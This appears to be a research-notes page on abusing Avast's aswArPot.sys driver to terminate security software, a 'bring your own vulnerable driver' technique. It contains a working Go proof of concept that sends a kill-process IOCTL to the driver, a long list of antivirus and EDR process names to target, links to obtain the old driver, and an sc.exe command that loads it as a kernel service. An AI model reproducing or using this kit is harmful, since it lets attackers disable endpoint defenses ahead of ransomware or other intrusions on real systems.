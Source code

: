 # Research - BYOVD Avast! Aswarpot  

https://www.bleepingcomputer.com/news/security/hackers-abuse-avast-anti-rootkit-driver-to-disable-defenses/
https://www.trendmicro.com/en_us/research/22/e/avoslocker-ransomware-variant-abuses-driver-file-to-disable-anti-Virus-scans-log4shell.html  
https://cybersecuritynews.com/10-year-old-flaws-with-avast-and-avg/  

Related CVEs  
CVE-2022-26522  
CVE-2022-26523  
CVE-2021-40539

Avast download  
https://www.dell.com/community/en/conversations/virus-spyware/avast-12/647f65f2f4ccf8a8de2c25a3?msockid=14050a922f30675b240c1fa02e9d665e  
https://web.archive.org/web/20170201000000*/http://files.avast.com/iavs9x/avast_free_antivirus_setup_offline.exe  

POC - https://github.com/timwhitez/killProcessPOC/blob/main/aswarpot.go
```  
package main

import (
	"fmt"
	"golang.org/x/sys/windows"
	"os"
	"strconv"
	"unsafe"
)

func main() {
	if len(os.Args) != 2 {
		fmt.Println("./device.exe pid")
		return
	}

	if os.Args[1] == "-h" {
		fmt.Println("./device.exe pid")
		return
	}

	var volumename = fmt.Sprintf("\\\\.\\aswSP_ArPot2")
	hVolume, _ := windows.CreateFile(windows.StringToUTF16Ptr(volumename), 0xc0000000, 0, nil, windows.OPEN_EXISTING, 0x80, 0)

	//var local_10 []byte
	var local_1c uint32
	windows.DeviceIoControl(hVolume, 0x7299c004, nil, 4, nil, 0, &local_1c, nil)

	volumename = fmt.Sprintf("\\\\.\\aswSP_Avar")
	local_c, _ := windows.CreateFile(windows.StringToUTF16Ptr(volumename), 0xc0000000, 0, nil, windows.OPEN_EXISTING, 0x80, 0)

	pid, _ := strconv.Atoi(os.Args[1])
	processID := uint32(pid)
	var local_2c uint32
	windows.DeviceIoControl(local_c, 0x9988c094, (*byte)(unsafe.Pointer(&processID)), 4, nil, 0, &local_2c, nil)

	windows.CloseHandle(hVolume)
	windows.CloseHandle(local_c)

}
```  

## Security Process Names  
```  
ERAAgent.exe
efwd.exe
SophosSafestore64.exe
PEFService.exe
mfefw.exe
mfemms.exe
mfewc.exe
McDiReg.exe
ProtectedModuleHost.exe
msmpeng.exe
ssdvagent.exe
avp.exe
swc_service.exe
bccavsvc.exe
psuaservice.exe
TmCCSF.exe
coreserviceshell.exe
repux.exe
vapm.exe
cylancesvc.exe
avpsus.exe
sbamtray.exe
sophoslivequeryservice.exe
epwd.exe
sophosmtrextension.exe
sophoscleanup.exe
iptray.exe
sentinelservicehost.exe
endpointbasecamp.exe
macompatsvc.exe
sepWscSvc64.exe
epab_svc.exe
mcsagent.exe
sophosfilescanner.exe
aswtoolssvc.exe
mfemactl.exe
avpsus.exe
avpui.exe
mcupdatemgr.exe
McAWFwk.exe
mfewch.exe
mfevtps.exe
McCSPServiceHost.exe
McPvTray.exe
MMSSHOST.exe
sophosui.exe
avastui.exe
paui.exe
bcc.exe
psuamain.exe
tesvc.exe
coreframeworkhost.exe
RepUtils.exe
updaterui.exe
cptrayui.exe
savservice.exe
SBAMSvc.exe
sophossafestore.exe
epam_svc.exe
sdcservice.exe
hostedagent.exe
idafserverhostservice.exe
sentinelhelperservice.exe
cetasvc.exe
macmnsvc.exe
sepagent.exe
responseservice.exe
mbcloudea.exe
SophosCleanM64.exe
easervicemonitor.exe
mfeann.exe
SophosNtpService.exe
ekrn.exe
MsMpEng.exe
QcShm.exe
mfeatp.exe
mfehcs.exe
mcshield.exe
Launch.exe
MclnstruTrack.exe
MfeAVSvc.exe
avastsvc.exe
ntrtscan.exe
svcgenerichost.exe
psanhost.exe
swi_service.exe
clientmanager.exe
repmgr.exe
tmlisten.exe
cptraylogic.exe
savapi.exe
vstskmgr.exe
wrsa.exe
efrservice.exe
scanhost.exe
sophosfimservice.exe
hostedagent.exe
SentinelAgentWorker.exe
cloudendpointservice.exe
logwriter.exe
SentinelUl.exe
dsa-connect.exe
mbamservice.exe
smcgui.exe
endpoint agent tray.exe
mctray.exe
SophosHealth.exe
eguiProxy.exe
agentsvc.exe
ModuleCoreService.exe
mfeesp.exe
mfeensppl
mfetp.exe
delegate.exe
McUICnt.exe
alsvc.exe
notifier.exe
sspservice.exe
pccntmon.exe
swi_fc.exe
ccsvchst.exe
remediationservice.exe
tmcpmadapter.exe
cpda.exe
savadminservice.exe
VipreNis.exe
ds_monitor.exe
dsa.exe
sbpimsvc.exe
sophososquery.exe
hmpalert.exe
sentinelagent.exe
sophos ui.exe
klnagent.exe
sentinelstaticenginescanner.exe
wscommunicator.exe
masvc.exe
sfc.exe
fsagentservice.exe
mcsclient.exe
sophosfs.exe
avwrapper.exe
```  

Create service  
```  
sc.exe create aswSP_ArPot2 binPath= C:\Windows\aswArPot.sys type= kernel
```  

